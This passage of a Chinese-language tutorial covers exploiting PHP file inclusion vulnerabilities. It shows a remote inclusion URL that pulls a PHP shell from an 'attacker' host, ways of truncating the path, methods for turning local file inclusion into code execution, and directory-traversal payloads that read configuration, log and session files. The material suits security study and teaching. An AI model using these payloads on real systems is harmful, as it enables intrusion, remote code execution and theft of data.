 在$basePath前没有设置任何障碍，因此攻击者可以构造类似如下的恶意URL：

```text
/?param=http://attacker/phpshell.txt?
```

最终加载的代码实际上执行了：

```text
require_once 'http://attacker/phpshell.txt?/action/m_share.php';
```

问号后面的代码最终被解释成URL的querystring（查询用字符串）,这也算一种截断方式，这是利用远程文件包含漏洞时的常见技巧。同样，%00也可以作为截断符号。

## 本地文件包含的利用技巧

本地文件包含漏洞，是有机会执行php代码的，但这取决于一些条件

经过不懈研究，安全研究者总结出了一下几种常见的技巧，用于本地文件包含后执行php代码。

（1）包含用户上传的文件

（2）包含data://或php://input等伪协议

（3）包含session文件

（4）包含日志文件

（5）包含/proc/self/environ

（6）包含上传的临时文件

（7）包含其他应用创建的文件，如数据库文件，缓存文件，应用日志等，需具体问题具体分析

### 常见利用方式

<?phpinclude("inc/" . $_GET['file']); ?>

- 包含同目录下的文件：

?file=.htaccess

- 目录遍历：

?file=../../../../../../../../../var/lib/locate.db

?file=../../../../../../../../../var/lib/mlocate/mlocate.db

（linux中这两个文件储存着所有文件的路径，需要root权限）

- 包含错误日志：?file=../../../../../../../../../var/log/apache/error.log （试试把UA设置为“”来使payload进入日志）
- 获取web目录或者其他配置文件：

?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf

- 包含上传的附件：

?file=../attachment/media/xxx.file



- 读取session文件：

?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7
